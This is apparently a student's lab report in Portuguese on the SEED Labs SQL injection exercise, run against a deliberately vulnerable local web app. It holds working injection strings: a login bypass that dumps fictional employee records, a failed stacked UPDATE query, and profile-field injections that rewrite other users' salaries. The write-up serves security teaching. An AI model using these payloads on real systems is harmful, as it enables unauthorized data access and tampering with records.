




# Trabalho realizado na Semana #8  - Web_SQL_Injection

## Tarefa 1

- Depois de acrescentar a seguinte linha ao ficheiro **'etc/hosts'**

> 10.9.0.5        www.seed-server.com

- Corremos o comando **'docker-compose build'** e **'docker-compose up'**

- Depois com **'dockps'** obtemos os containers e **'com docksh'** acedemos ao de mysql

```java
[12/15/21]seed@VM:~/.../Labsetup$ dockps
e25f634ef3e0  mysql-10.9.0.6
61f3afae9920  www-10.9.0.5
[12/15/21]seed@VM:~/.../Labsetup$ docksh e2
root@e25f634ef3e0:/# 
```

- Para obter os dados da Alice

  

## Tarefa 2.1

- Inserindo no username a string ** admin' # ** e na password algo simplesmente para nao ser um campo vazio obtemos as tabelas

 

## Tarefa 2.2

```java
[12/15/21]seed@VM:~$ curl 'http://www.seed-server.com/unsafe_home.php?username=admin%27+%23&Password=banna'
<!--
SEED Lab: SQL Injection Education Web plateform
Author: Kailiang Ying
Email: kying@syr.edu
-->

<!DOCTYPE html>
<html lang="en">
<head>
  <!-- Required meta tags -->
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

  <!-- Bootstrap CSS -->
  <link rel="stylesheet" href="css/bootstrap.min.css">
  <link href="css/style_home.css" type="text/css" rel="stylesheet">

  <!-- Browser Tab title -->
  <title>SQLi Lab</title>
</head>
<body>
  <nav class="navbar fixed-top navbar-expand-lg navbar-light" style="background-color: #3EA055;">
    <div class="collapse navbar-collapse" id="navbarTogglerDemo01">
      <a class="navbar-brand" href="unsafe_home.php" ></a>

      <ul class='navbar-nav mr-auto mt-2 mt-lg-0' style='padding-left: 30px;'><li class='nav-item active'><a class='nav-link' href='unsafe_home.php'>Home <span class='sr-only'>(current)</span></a></li><li class='nav-item'><a class='nav-link' href='unsafe_edit_frontend.php'>Edit Profile</a></li></ul><button onclick='logout()' type='button' id='logoffBtn' class='nav-link my-2 my-lg-0'>Logout</button></div></nav><div class='container'><br><h1 class='text-center'><b> User Details </b></h1><hr><br><table class='table table-striped table-bordered'><thead class='thead-dark'><tr><th scope='col'>Username</th><th scope='col'>EId</th><th scope='col'>Salary</th><th scope='col'>Birthday</th><th scope='col'>SSN</th><th scope='col'>Nickname</th><th scope='col'>Email</th><th scope='col'>Address</th><th scope='col'>Ph. Number</th></tr></thead><tbody><tr><th scope='row'> Alice</th><td>10000</td><td>20000</td><td>9/20</td><td>10211002</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Boby</th><td>20000</td><td>30000</td><td>4/20</td><td>10213352</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ryan</th><td>30000</td><td>50000</td><td>4/10</td><td>98993524</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Samy</th><td>40000</td><td>90000</td><td>1/11</td><td>32193525</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ted</th><td>50000</td><td>110000</td><td>11/3</td><td>32111111</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Admin</th><td>99999</td><td>400000</td><td>3/5</td><td>43254314</td><td></td><td></td><td></td><td></td></tr></tbody></table>      <br><br>
      <div class="text-center">
        <p>
          Copyright &copy; SEED LABs
        </p>
      </div>
    </div>
    <script type="text/javascript">
    function logout(){
      location.href = "logoff.php";
    }
    </script>
  </body>
  </html>
```

- Removemos alguns comentarios do output para simplificar a visualizaçao mas gravando-o num ficheiro **index.html** e abrindo no browser obtemos algo mais simpatico

 

## Tarefa 2.3


> admin' ; UPDATE credential SET Name = 'Batata' WHERE Name = 'Alice'; #

- Tentamos efetuar um update no username da Alice, no entanto nao foi possivel porque resulta em 2 commandos SQL e a versao de PHP nao permite fazer multiplas Query's

> There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'UPDATE credential SET Name = 'Batata' WHERE Name = 'Alice'; #' and Password='9a9' at line 3]\n


## Tarefa 3.1

- Na pagina de editar perfil, podemos inserir a seguinte string em qualquer espaço exceto no de **password** pois este esta cifrado com Hash. 

> 77777', salary = 42000000 WHERE name = 'Alice' #

```sql

UPDATE credential SET
nickname = '',
email = '',
address = '',
Password = '',
PhoneNumber = '77777', salary = 42000000 WHERE name = 'Alice' #'

```

## Tarefa 3.2

- Como em 3.1, na pagina de editar o perfil da alice adicionamos a seguinte string em qualquer campo exceto o da password

> 77777', salary = 1 WHERE name = 'Boby' #


 
